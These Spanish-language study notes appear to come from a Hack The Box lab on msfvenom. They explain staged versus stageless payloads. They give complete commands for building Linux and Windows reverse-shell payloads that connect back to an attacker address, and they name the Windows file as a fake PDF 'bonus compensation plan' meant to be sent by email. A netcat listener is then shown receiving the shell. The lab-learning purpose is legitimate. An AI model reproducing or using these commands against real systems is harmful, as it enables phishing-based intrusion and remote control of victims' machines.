 Atacar a una máquina con *msfconsole* (metasploit) es útil siempre y cuando la máquina atacante tiene visibilidad de la máquina víctima (que estén en la misma red).

Cuando no se dispone de este acceso, conviene saber otras formas de entregar dicho PAYLOAD. 
La solución es utilizar *msfvenom* para crear un archivo maliciosos que se peuda enviar por correo u otro método para su posterior ejecución.

### Practicando con msfvenom
En la máquina atacante, podemos utilizar el comando:
```
msfvenom -l payloads
```
para listar la totalidad de payloads disponibles.

Estos son algunos ejemplos: 

```shell-session
Polika4RM@htb[/htb]$ msfvenom -l payloads

Framework Payloads (592 total) [--payload <value>]
==================================================

    Name                                                Description
    ----                                                -----------
linux/x86/shell/reverse_nonx_tcp                    Spawn a command shell (staged). Connect back to the attacker
linux/x86/shell/reverse_tcp                         Spawn a command shell (staged). Connect back to the attacker
linux/x86/shell/reverse_tcp_uuid                    Spawn a command shell (staged). Connect back to the attacker
linux/x86/shell_bind_ipv6_tcp                       Listen for a connection over IPv6 and spawn a command shell
linux/x86/shell_bind_tcp                            Listen for a connection and spawn a command shell
linux/x86/shell_find_port                           Spawn a shell on an established connection
linux/x86/shell_find_tag                            Spawn a shell on an established connection (proxy/nat safe)
windows/dllinject/bind_named_pipe                   Inject a DLL via a reflective loader. Listen for a pipe connection (Windows x86)
windows/dllinject/bind_nonx_tcp                     Inject a DLL via a reflective loader. Listen for a connection (No NX)
windows/dllinject/bind_tcp                          Inject a DLL via a reflective loader. Listen for a connection (Windows x86)
windows/dllinject/bind_tcp_rc4                      Inject a DLL via a reflective loader. Listen for a connection
windows/dllinject/bind_tcp_uuid                     Inject a DLL via a reflective loader. Listen for a connection with UUID Support (Windows x86)
windows/dllinject/find_tag                          Inject a DLL via a reflective loader. Use an established connection
windows/dllinject/reverse_hop_http                  Inject a DLL via a reflective loader. Tunnel communication over an HTTP or HTTPS hop point.
```

## Tipos de PAYLOADS
Existen dos tipos de PAYLOADS, los staged y los stageless:

Los **payloads staged** se envían en varias etapas: primero una pequeña parte que se ejecuta en la máquina víctima y luego descarga el resto del payload, lo que permite ataques más grandes o complejos, pero puede consumir más memoria y ser inestable en redes lentas.  El “resto del payload” no está en la máquina víctima desde el principio; se envía después a través de la red cuando la primera etapa ya abrió el canal de comunicación. Esto permite que el atacante envíe payloads grandes en partes más pequeñas y controladas

Por otro lado, los **payloads stageless** se envían completos de una sola vez, lo que los hace más estables y menos detectables en redes con poca banda, aunque limita el tamaño del payload. En 
- Los staged separan las etapas con barras (`/`) :
	- Ejemplo: linux/x86/shell/reverse_tcp
- Mientras que los stageless presentan todo en un solo bloque.
	- Ejemplo: linux/zarch/meterpreter_reverse_tcp


# Creando un Stageless Payload
Vamos a construir un stageless payload.

El comando completo es el siguiente:
```shell-session
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf
```
- **msfvenom**: define la herramienta a utilizar
- **-p**: Indica a msfvenom que se debe crear un PAYLOAD.
- **linux/x64/shell_reverse_tcp**: indica a msfvenom el tipo de PAYLOAD a generar según la arquitectura de la víctima.
- **LHOST // LPORT**: Indica el Local Host y Port del atacante. 
- **-f efl**: indica que el payload se encapsulará en un:
	- **>createbackup.elf**: indica el nombre del archivo a la salida.


Para un sistema windows, el comando utilizado poddría ser un de este tipo:
```shell-session
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe
```

En ambos payloads, nos tendríamos que poner en escucha por el puerto indicado en LPORT para recibir la *REVERSE SHELL*: 
```shell-session
Polika4RM@htb[/htb]$ sudo nc -lvnp 443

Listening on 0.0.0.0 443
Connection received on 10.129.144.5 49679
Microsoft Windows [Version 10.0.18362.1256]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Users\htb-student\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is DD25-26EB

 Directory of C:\Users\htb-student\Downloads

09/23/2021  10:26 AM    <DIR>          .
09/23/2021  10:26 AM    <DIR>          ..
09/23/2021  10:26 AM            73,802 BonusCompensationPlanpdf.exe
               1 File(s)         73,802 bytes
               2 Dir(s)   9,997,516,800 bytes free
```
